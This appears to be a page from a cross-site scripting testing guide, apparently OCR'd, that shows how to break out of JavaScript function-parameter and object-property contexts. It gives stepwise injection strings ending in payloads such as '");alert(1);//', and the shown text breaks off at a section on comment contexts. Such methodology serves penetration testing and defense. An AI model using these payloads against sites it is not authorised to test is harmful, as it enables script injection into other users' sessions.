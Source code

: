 ### JavaScript Function Parameters
**Context Pattern:**
```html
<script>
someFunction("USER_INPUT");
</script>
```

**Structural Requirements:**
- **Escape:** `"` (close parameter)
- **Structure:** `)` (close function call)
- **Payload:** `;` + JavaScript
- **Cleanup:** `;//` (comment)

**Progressive Testing:**
```
Step 1: test
Step 2: "
Step 3: ")
Step 4: ");
Step 5: ");alert(1)
Step 6: ");alert(1);//
```

### JavaScript Object Properties
**Context Pattern:**
```html
<script>
var obj = {prop: "USER_INPUT"};
</script>
```

**Structural Requirements:**
- **Escape:** `"` (close property value)
- **Structure:** `}` (close object)
- **Payload:** `;` + JavaScript
- **Cleanup:** `;//` (comment)

**Progressive Testing:**
```
Step 1: test
Step 2: "
Step 3: "}
Step 4: "};
Step 5: "};alert(1)
Step 6: "};alert(1);//
```

### JavaScript Comments
**Context Pattern:**
```html
<script>
// USER_INPUT
var x = 1;
</script>
```
